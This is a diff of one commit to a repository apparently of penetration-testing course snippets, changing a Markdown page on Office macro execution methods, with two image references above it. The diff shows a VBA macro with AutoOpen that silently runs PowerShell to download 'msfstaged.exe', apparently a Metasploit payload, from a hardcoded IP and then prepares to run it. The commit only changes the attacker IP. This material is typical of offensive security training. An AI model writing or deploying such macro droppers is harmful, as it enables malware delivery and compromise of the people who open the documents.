

Before and after one commit to trike33/PEN-300-Code-Snippets, a Markdown page: Macro execution methods.md, the part around the change. Drawn GitHub-style.

```diff
--- a/Macro execution methods.md
+++ b/Macro execution methods.md
@@ -52,7 +52,7 @@ Sub AutoOpen()
 End Sub
 Sub MyMacro()
   Dim str As String
-  str = "powershell (New-Object System.Net.WebClient).DownloadFile('http://192.168.119.120/msfstaged.exe', 'msfstaged.exe')"
+  str = "powershell (New-Object System.Net.WebClient).DownloadFile('http://192.168.1.1/msfstaged.exe', 'msfstaged.exe')"
   Shell str, vbHide
   Dim exePath As String
   exePath = ActiveDocument.Path + "\msfstaged.exe"
```
